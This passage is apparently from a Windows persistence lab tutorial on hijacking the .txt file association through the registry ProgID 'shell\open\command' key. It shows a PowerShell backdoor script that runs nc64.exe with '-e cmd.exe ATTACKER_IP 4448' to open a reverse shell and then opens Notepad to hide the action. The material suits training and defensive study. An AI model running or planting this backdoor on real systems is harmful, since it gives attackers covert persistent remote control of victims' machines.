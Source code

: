 ![File extensions in registry](./assets/3ae1b8356b38a349090e836026d6d480.png)

We can then search for a subkey for the corresponding ProgID (also under `HKLM\Software\Classes\`), in this case, `txtfile`, where we will find a reference to the program in charge of handling .txt files. Most ProgID entries will have a subkey under `shell\open\command` where the default command to be run for files with that extension is specified:

![ProgID in registry](./assets/c3565cf93de4990f41f41b25aed80571.png)

In this case, when you try to open a .txt file, the system will execute `%SystemRoot%\system32\NOTEPAD.EXE %1`, where `%1` represents the name of the opened file. If we want to hijack this  extension, we could replace the command with a script that executes a  backdoor and then opens the file as usual. First, let's create a ps1  script with the following content and save it to `C:\Windows\backdoor2.ps1`:

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Notice how in Powershell, we have to pass `$args[0]` to notepad, as it will contain the name of the file to be opened, as given through `%1`.

Now let's change the registry key to run our backdoor script in a hidden window:
